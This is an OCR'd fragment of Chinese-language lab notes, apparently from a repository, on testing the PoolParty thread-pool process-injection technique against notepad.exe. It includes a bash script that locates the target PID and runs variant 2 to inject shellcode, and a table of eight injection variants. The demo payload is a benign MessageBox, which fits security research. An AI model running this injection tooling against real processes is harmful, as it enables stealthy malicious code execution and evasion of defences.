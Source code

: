 **结果**: ✅ 注入成功，MessageBox 正常弹出

### 5. 自动化测试脚本

创建了 `test.sh` 简化测试流程：

```bash
#!/bin/bash

echo "[*] PoolParty (Technique 37) - Process Injection via Thread Pool"
echo ""

# 启动notepad
echo "[*] Starting notepad.exe..."
notepad.exe &
sleep 2

# 获取PID
PID=$(tasklist | grep -i "notepad.exe" | tail -1 | awk '{print $2}')

if [ -z "$PID" ]; then
    echo "[x] Failed to find notepad.exe"
    exit 1
fi

echo "[+] Found notepad.exe with PID: $PID"
echo ""

# 使用变体2 (RemoteTpWorkInsertion)
echo "[*] Using variant 2 (RemoteTpWorkInsertion)..."
echo ""

./PoolParty.exe -V 2 -P $PID

echo ""
echo "[!] Interact with notepad.exe to trigger the shellcode"
echo "[!] Expected: MessageBox popup from notepad.exe"
```

**使用方式**:
```bash
./test.sh
```

**结果**: ✅ 一键测试成功

## 技术细节

### PoolParty 8 个变体

| 编号 | 变体名称 | 核心技术 | 状态 |
|------|---------|---------|------|
| 1 | WorkerFactoryStartRoutineOverwrite | 覆盖 Worker Factory 启动例程 | ✅ 可用 |
| **2** | **RemoteTpWorkInsertion** | **插入 TP_WORK 到任务队列** | **✅ 已测试** |
| 3 | RemoteTpWaitInsertion | 插入 TP_WAIT 对象 | ✅ 可用 |
| 4 | RemoteTpIoInsertion | 插入 TP_IO 对象 | ✅ 可用 |
| 5 | RemoteTpAlpcInsertion | 插入 TP_ALPC 对象 | ✅ 可用 |
| 6 | RemoteTpJobInsertion | 插入 TP_JOB 对象 | ✅ 可用 |
| 7 | RemoteTpDirectInsertion | 直接插入到线程池 | ✅ 可用 |
| 8 | RemoteTpTimerInsertion | 插入 TP_TIMER 对象 | ✅ 可用 |